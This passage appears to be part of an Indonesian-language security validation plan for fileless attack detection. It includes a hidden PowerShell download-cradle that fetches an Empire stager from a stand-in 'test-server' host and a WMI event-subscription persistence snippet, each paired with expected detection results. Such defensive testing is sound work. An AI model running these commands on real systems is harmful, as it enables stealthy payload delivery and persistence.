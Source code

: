```powershell
# - Process injection detection
```

---

## 🛡️ A4: Fileless Attack Prevention

### Tujuan Testing
Validasi kemampuan mendeteksi dan mencegah serangan fileless yang menggunakan legitimate tools.

### Test Scenarios

#### A4.1: PowerShell Empire Simulation

**Windows Server:**
```powershell
# Simulate PowerShell Empire techniques
powershell.exe -WindowStyle Hidden -ExecutionPolicy Bypass -Command "& {(New-Object Net.WebClient).DownloadString('http://test-server/empire-stager')}"

# Expected Result:
# - PowerShell activity monitoring
# - Network connection analysis
# - Command line inspection
```

#### A4.2: WMI Persistence Testing

**Windows Server:**
```powershell
# WMI event subscription (legitimate admin tool abuse)
$filterName = 'TestFilter'
$consumerName = 'TestConsumer'

# Create WMI filter
$Query = "SELECT * FROM Win32_VolumeChangeEvent WHERE EventType = 2"
$WMIEventFilter = Set-WmiInstance -Class __EventFilter -NameSpace "root\subscription" -Arguments @{Name=$filterName;EventNameSpace="root\cimv2";QueryLanguage="WQL";Query=$Query}

# Expected Result:
# - WMI activity monitoring
# - Persistence mechanism detection
# - Registry/WMI change tracking
```

---

## 📊 Testing Metrics & Validation

### Key Performance Indicators
